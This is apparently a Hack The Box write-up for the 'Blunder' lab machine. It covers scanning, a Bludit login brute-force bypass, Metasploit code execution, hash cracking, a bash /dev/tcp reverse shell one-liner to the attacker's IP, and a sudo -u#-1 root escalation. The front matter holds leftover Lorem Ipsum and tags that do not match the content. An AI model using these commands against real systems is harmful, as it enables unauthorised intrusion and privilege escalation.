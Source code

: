 ```yaml
---
layout: single
title: Blunder - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-06-04
classes: wide
header:
  teaser: /assets/images/htb-writeup-blunder/blunder_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-blunder/blunder_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------

   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. root@nidus:/git/htb/cache# nmap -Pn -sC -sV -n 10.10.10.191
    PORT   STATE  SERVICE VERSION
      21/tcp closed ftp
      80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
      |_http-generator: Blunder
      |_http-server-header: Apache/2.4.41 (Ubuntu)
      |_http-title: Blunder | A blunder of interesting facts

    DIRB:
      + http://10.10.10.191/0 (CODE:200|SIZE:7562)
      + http://10.10.10.191/about (CODE:200|SIZE:3281)
      ==> DIRECTORY: http://10.10.10.191/admin/
      + http://10.10.10.191/cgi-bin/ (CODE:301|SIZE:0)
      + http://10.10.10.191/LICENSE (CODE:200|SIZE:1083)
      + http://10.10.10.191/robots.txt (CODE:200|SIZE:22)
      + http://10.10.10.191/server-status (CODE:403|SIZE:277)

    NIKTO:
      + "robots.txt" contains 1 entry which should be manually viewed.

    FFUF dirb/common.txt (.php, .html, .txt):
      install.php        [Status: 200, Size: 30, Words: 5, Lines: 1]
      robots.txt         [Status: 200, Size: 22, Words: 3, Lines: 2]
      todo.txt           [Status: 200, Size: 118, Words: 20, Lines: 5]

2. Looking at the webpage we find nothing really of use. Dirb gives us a login under /admin, however we don't have any creds.
   install.php only says that Bludit is already installed
   robots.txt hows nothing
   todo.txt however gives us something;

    -Update the CMS
    -Turn off FTP - DONE
    -Remove old users - DONE
    -Inform fergus that the new blog needs images - PENDING

  My conclusion from this - CMS is old version, and there are probably a user named fergus.


3. Looking through the source code of the webpage we find that the software version is 3.9.2.

    <!-- Include Bootstrap CSS file bootstrap.css -->
    <link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2">

  Looking for vulnerabilities in Bludit 3.9.2 we find a page and a script to bypass brute force protection.
  https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb

  Enter found username (fergus), along with the url and standard wordlist rockyou.txt - no dice. We're missing something here
  the password doesn't seem the be a default from rockyou.txt.

  Using cewl we can try to create our own, custom, wordlist.
    root@nidus:/git/htb/blunder# cewl -w blunder-wl.txt -d 4 -m 5 http://10.10.10.191
    root@nidus:/git/htb/blunder# cat brute.py
      #!/usr/bin/env python3
      import re
      import requests

      host = "http://10.10.10.191" # change to the appropriate URL

      login_url = host + '/admin/'
      username = 'fergus' # Change to the appropriate username
      fname = "blunder-wl.txt" #change this to the appropriate file you can specify the full path to the file
      ..

    root@nidus:/git/htb/blunder# python3 brute.py
      ..
      [*] Trying: RolandDeschain

      SUCCESS: Password found!
      Use fergus:RolandDeschain to login.


  4. We are now able to access /admin. Continue to enumerate for Bludit 3.9.2 vulns and we find a Code Execution vuln in the
     upload function.

     https://github.com/bludit/bludit/issues/1081
     I tried to get this exploit to work manually, however I wasn't able to. So instead I went to the msf module
     'linux/http/bludit_upload_images_exec' that gave a reverse meterpreter shell right away.

     msf5 exploit(linux/http/bludit_upload_images_exec) > options

      Module options (exploit/linux/http/bludit_upload_images_exec):

         Name        Current Setting      Required  Description
         ----        ---------------      --------  -----------
         BLUDITPASS  RolandDeschain       yes       The password for Bludit
         BLUDITUSER  fergus               yes       The username for Bludit
         Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
         RHOSTS      10.10.10.191         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
         RPORT       80                   yes       The target port (TCP)
         SSL         false                no        Negotiate SSL/TLS for outgoing connections
         TARGETURI   /                    yes       The base path for Bludit
         VHOST                            no        HTTP server virtual host

     msf5 exploit(linux/http/bludit_upload_images_exec) > run

       [*] Started reverse TCP handler on 10.10.14.17:4488
       [+] Logged in as: fergus
       [*] Retrieving UUID...
       [*] Uploading umtMhoBAyo.png...
       [*] Uploading .htaccess...
       [*] Executing umtMhoBAyo.png...
       [*] Sending stage (38288 bytes) to 10.10.10.191
       [*] Meterpreter session 1 opened (10.10.14.17:4488 -> 10.10.10.191:53692) at 2020-06-04 17:53:55 +0200
       [+] Deleted .htaccess

       meterpreter > shell
        Process 4654 created.
        Channel 1 created.
        whoami
        www-data


5. Looking around in the box we find 2 hashed passwords in /var/www/bludit-3.9.2/bl-content/databases, however we are unable to
   crack them. Enumerating further we find their new, updated version bludit 3.10 directory. Browsing to the database dir we find
   a new user hash.

   pwd
    /var/www/bludit-3.10.0a/bl-content/databases
   cat users.php
    <?php defined('BLUDIT') or die('Bludit CMS.'); ?>
    {
        "admin": {
            "nickname": "Hugo",
            "firstName": "Hugo",
            "lastName": "",
            "role": "User",
            "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",

     rockyou.txt doesn't contain the password, so using crackstation.net solved it for us - Password120

     su hugo
      Password: Password120
     whoami
      hugo
     cat /home/hugo/user.txt
      7648136cd484168abf3ba60f6687fe65


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. The reverse meterpreter shell won't allow us to execute 'sudo -l', so start by creating a new reverse shell - and upgrade it.

    bash -i >& /dev/tcp/10.10.14.17/4488 0>&1
    root@nidus:/git/htb/blunder# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.17] from (UNKNOWN) [10.10.10.191] 54502
      bash: cannot set terminal process group (1093): Inappropriate ioctl for device
      bash: no job control in this shell
      hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$


    hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -l
      Password:
      Matching Defaults entries for hugo on blunder:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User hugo may run the following commands on blunder:
          (ALL, !root) /bin/bash


2. A quick google on '(ALL, !root) /bin/bash' shows us that we can escalate privs using 'sudo -u#-1 /bin/bash'

    hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash
    root@blunder:/var/www/bludit-3.10.0a/bl-content/databases# whoami
      root
    root@blunder:/var/www/bludit-3.10.0a/bl-content/databases# cat /root/root.txt
      4f812395afcaa35870cc99487a7ef108




██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
